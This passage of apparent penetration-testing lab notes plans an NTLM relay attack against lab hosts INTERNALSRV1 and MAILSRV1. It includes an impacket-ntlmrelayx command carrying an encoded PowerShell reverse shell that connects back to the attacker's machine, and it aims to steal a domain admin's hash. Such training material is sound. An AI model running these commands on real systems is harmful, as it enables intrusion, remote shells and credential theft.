 Let's pause here for a moment and plan our next steps
+ At the moment, there are two promising attack vectors

The first is to upload a malicious WordPress plugin to INTERNALSRV1
+ By preparing and uploading a web shell or reverse shell, we may be able to obtain code execution on the underlying system

For the second attack vector, we have to review the BloodHound results again and make some assumptions
+ As we have discovered, the local _Administrator_ account has an active session on INTERNALSRV1 
+ Based on this session, we can make the assumption that this user account is used to run the WordPress instance

Furthermore, it's not uncommon that the local _Administrator_ accounts across computers in a domain are set up with the same password
+ Let's assume this is true for the target environment
+ We also learned that the domain administrator _beccy_ has an active session on MAILSRV1 and therefore, the credentials of the user may be cached on the system
+ Due to SMB signing being disabled on MAILSRV1 and INTERNALSRV1, a relay attack is possible if we can force an authentication

Finally, we identified the _Backup directory path_ field in the WordPress _Backup Migration_ plugin containing the path for the backup destination
+ This may allow us to force such an authentication request

Based on all of this information, let's define a plan for the second attack vector
+ First, we'll attempt to force an authentication request by abusing the _Backup directory path_ of the Backup Migration WordPress plugin on INTERNALSRV1
+ By setting the destination path to our Kali machine, we can use _impacket-ntlmrelayx_ to relay the incoming connection to MAILSRV1
+ If our assumptions are correct, the authentication request is made in the context of the local _Administrator_ account on INTERNALSRV1, which has the same password as the local _Administrator_ account on MAILSRV1

If this attack is successful, we'll obtain privileged code execution on MAILSRV1, which we can then leverage to extract the NTLM hash for _beccy_ and therefore, meet one of the primary goals of the penetration test
+ Since the second attack vector not only results in code execution on a single system, but also provides a potential vector to achieve one of the goals of the penetration test, we'll perform the relay attack first

Let's set up **impacket-ntlmrelayx** before we modify the _Backup directory path_ in the WordPress plugin
+ We'll use **--no-http-server** and **-smb2support** to disable the HTTP server and enable SMB2 support
+ We'll specify the external address for MAILSRV1, 192.168.50.242, as target for the relay attack
+ By entering the external address, we don't have to proxy our relay attack via Proxychains
+ Finally, we'll base64-encode a _PowerShell reverse shell oneliner_ that will connect back to our Kali machine on port 9999 and provide it as a command to **-c**:
```
kali@kali:~/beyond$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
```